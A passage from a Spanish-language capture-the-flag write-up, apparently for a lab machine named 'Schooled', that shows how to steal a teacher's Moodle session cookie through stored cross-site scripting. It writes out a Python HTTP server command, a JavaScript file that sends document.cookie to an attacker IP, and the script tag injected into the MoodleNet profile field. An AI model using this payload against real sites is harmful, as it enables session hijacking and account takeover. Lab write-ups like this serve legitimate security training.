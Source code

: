 ![](/assets/img/Schooled/image_11.png)

Vamos a intentar `robarle` la `cookie` al `profesor` cuando `mire` nuestro `perfil`, lo primero que debemos hacer es montarnos un `servidor` http con `python`

```
# python -m http.server 80
```

Nos creamos un archivo `pwned.js` en el `mismo directorio` donde tenemos montado el `servidor` http con `python`

```
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.16.23/cookie=' + document.cookie, false);
request.send();
```

`Inyectamos` este `payload` en la parte del `MoodleNet profile`

```
<script src="http://10.10.16.23/pwned.js"></script>
```

`Obtenemos` la `cookie` de `sesión` del `profesor`
